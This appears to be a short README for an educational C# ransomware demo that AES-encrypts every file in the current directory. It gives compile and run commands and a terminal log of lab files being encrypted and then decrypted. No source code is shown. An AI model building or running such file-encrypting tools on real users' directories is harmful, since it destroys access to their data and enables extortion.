 ## this is the sample ransom ware [file encryption] education purpose only

AES encryption all file in current directory

compile
```
mcs ransomsample.cs
```

execute(encrypt)
```
[linux]
mono ransomesample.exe
[windows]
.\ransomesample.exe
```

execute(decrypt)
```
[linux]
mono ransomesample.exe -d
[windows]
.\ransomesample.exe -d
```

```

-> cat test*.txt
this is the test2
this is the test3
this is the test

-> ./ransomsample.exe 
Encrypting directory: /home/g01d3nw01f/dev/cs/lab
Encrypting: test2.txt
Encrypting: ransomsample.cs
Encrypting: test3.txt
Encrypting: test.txt
Skipping self: ransomsample.exe
Encryption process completed successfully!

-> cat test*.txt
C��O�dj��H�u�)��vJS�X]�/�'��;�ۦ��vE��`�g~���^zS^�ğ0��(kzY'�%|#�ܴ��RY���]6͜�b6[

-> ./ransomsample.exe -d
Decrypting directory: /home/g01d3nw01f/dev/cs/lab
Decrypting: test2.txt
Decrypting: ransomsample.cs
Decrypting: test3.txt
Decrypting: test.txt
Skipping self: ransomsample.exe
Decryption process completed successfully!

-> cat test*.txt
this is the test2
this is the test3
this is the test

```



